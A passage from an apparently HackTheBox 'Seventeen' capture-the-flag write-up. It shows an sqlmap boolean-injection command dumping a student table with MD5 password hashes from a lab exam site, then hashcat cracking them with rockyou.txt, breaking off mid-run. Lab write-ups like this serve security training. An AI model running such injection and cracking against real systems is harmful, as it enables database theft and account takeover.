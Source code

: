 ```bash
┌──(kali㉿kali)-[~/htb/seventeen]
└─$ sqlmap -u 'http://exam.seventeen.htb/?p=take_exam&id=1' -p id --technique B --batch -D db_sfms -T student --dump

Database: db_sfms                                                                           
Table: student
[4 entries]
+---------+----+--------+---------+----------+----------------------------------------------------+-----------+
| stud_id | yr | gender | stud_no | lastname | password                                           | firstname |
+---------+----+--------+---------+----------+----------------------------------------------------+-----------+
| 1       | 1A | Male   | 12345   | Smith    | 1a40620f9a4ed6cb8d81a1d365559233                   | John      |
| 2       | 2B | Male   | 23347   | Mille    | abb635c915b0cc296e071e8d76e9060c                   | James     |
| 3       | 2C | Female | 31234   | Shane    | a2afa567b1efdb42d8966353337d9024 (autodestruction) | Kelly     |
| 4       | 3C | Female | 43347   | Hales    | a1428092eb55781de5eb4fd5e2ceb835                   | Jamie     |
+---------+----+--------+---------+----------+----------------------------------------------------+-----------+
```

`student` table also has credentials.

```bash
┌──(kali㉿kali)-[~/htb/seventeen]
└─$ hashcat -m 0 -a 0 sfms_student.md5 /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, LLVM 17.0.6, SLEEF, POCL_DEBUG) - Platform #1 [The pocl project]
====================================================================================================================================
* Device #1: cpu--0x000, 1436/2937 MB (512 MB allocatable), 2MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 4 digests; 4 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Early-Skip
* Not-Salted
* Not-Iterated
* Single-Salt
* Raw-Hash

ATTENTION! Pure (unoptimized) backend kernels selected.
Pure kernels can crack longer passwords, but drastically reduce performance.
If you want to switch to optimized kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 0 MB

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
```